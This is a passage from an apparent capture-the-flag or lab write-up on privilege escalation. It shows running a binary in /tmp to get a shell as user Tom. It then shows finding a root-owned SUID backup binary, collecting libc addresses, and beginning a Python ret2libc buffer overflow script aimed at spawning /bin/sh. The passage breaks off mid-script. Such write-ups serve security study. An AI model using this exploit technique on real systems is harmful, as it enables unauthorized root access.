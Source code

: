 11. I ran the executable /tmp/tom as the user owner to get a prompt as Tom

    ```bash
    /tmp/tom -p
    ```

    ![image-20201031203433603](.Report.assets/image-20201031203433603.png)

12. Search for SUID files, I located /usr/local/bin/backup which is owned by root.  Somehow, I don't know how, but we were supposed to determine that a segmentation fault happens if 508 byes of data are passed to the third parameter.  First you must find some memory addresses:

    ```bash
    # Find libc address:  f7613000
    ldd /usr/local/bin/backup | grep libc.so.6
    # Find libc system function:  0003a940
    readelf -s /lib32/libc.so.6 | grep system
    # Find libc exit function:  0002e7b0
    readelf -s /lib32/libc.so.6 | grep exit
    # Find libc /bin/sh reference:  0015900b
    strings -a -t x /lib32/libc.so.6 | grep /bin/sh
    ```

    Then create a buffer overflow script:

    ```python
    #!/usr/bin/env python
    import struct
    from subprocess import call
    
    libc_base_addr = 0xf7613000
    system_off = 0x0003a940            
    exit_off = 0x0002e7b0          
    system_addr = libc_base_addr + system_off
    exit_addr = libc_base_addr + exit_off
    system_arg = libc_base_addr + 0x0015900b
    
    def conv(num):
        return struct.pack("<I",num)
    
    buf = "A" * 512
    buf += conv(system_addr)
    buf += conv(exit_addr)
    buf += conv(system_arg)
    